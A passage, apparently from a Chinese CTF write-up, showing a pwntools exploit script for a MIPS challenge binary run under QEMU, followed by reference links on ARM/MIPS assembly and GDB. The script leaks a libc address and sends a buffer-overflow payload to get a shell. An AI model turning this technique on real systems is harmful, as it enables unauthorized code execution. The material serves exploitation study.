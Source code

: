 ````python
	sh=process(['qemu-mipsel','-L','/mnt/hgfs/share/ctf/helloMIPS','./HelloMIPS'])

if args['I386']:
	context.arch='i386'
else:
	context.arch='amd64'

if args['DEBUG']:
	context.log_level='debug'

def exp():
	name=0x00440E20
	libc=ELF("./lib/libc.so.0")
	ru("Hello")
	sl("/bin/sh")
	ru(":")
	system=int(ru("\n").replace("\n",''),16)
	libc_base=system-libc.symbols["system"]
	secret=libc_base+0x00000000000F684
	ucmain=0x0000000000400BC8
	info_addr("system",system)
	offset=0x104
	payload="a"*offset+p32(ucmain)+\
			"a"*0x18+p32(name)+p32(0)+p32(secret)+p32(0)+"a"*0x24+p32(0x00000000004008AC)
	sl(payload)
	itr()

exp()
````

# 参考

[Arm PWN学习笔记](https://www.freebuf.com/articles/network/245930.html)

[ARM架构下的 Pwn 的一般解决思路](https://www.anquanke.com/post/id/199112)

[Qemu简述](https://www.cnblogs.com/bakari/p/7858029.html)

[GDB调试及其调试脚本的使用](https://blog.csdn.net/longerzone/article/details/8867790)

[arm架构寄存器介绍](https://blog.csdn.net/xiaoxiaopengbo/article/details/78693811)

[ARM过程调用标准---APCS简单介绍](https://www.cnblogs.com/mengfanrong/p/3881521.html)

[ARM指令集详解](https://blog.csdn.net/u014069939/article/details/81107340)

[MIPS 通用寄存器 + 指令](https://blog.csdn.net/gujing001/article/details/8476685)

[MIPS 寄存器使用约定](https://hev.cc/805.html)

[MIPS 指令集(共31条)](https://blog.csdn.net/yixilee/article/details/4316617)

[MIPS指令集与简要分析](https://www.jianshu.com/p/ac2c9e7b1d8f)

[MIPS指令集及汇编](chrome-extension://cdonnmffkdaoajfknoeeecmchibpmkmg/assets/pdf/web/viewer.html?file=http%3A%2F%2Fedu.i-soft.com.cn%2Fdoc%2Flongxin-2017%2F02-1MIPS%25E6%258C%2587%25E4%25BB%25A4%25E4%25B8%258E%25E6%25B1%2587%25E7%25BC%2596.pdf)






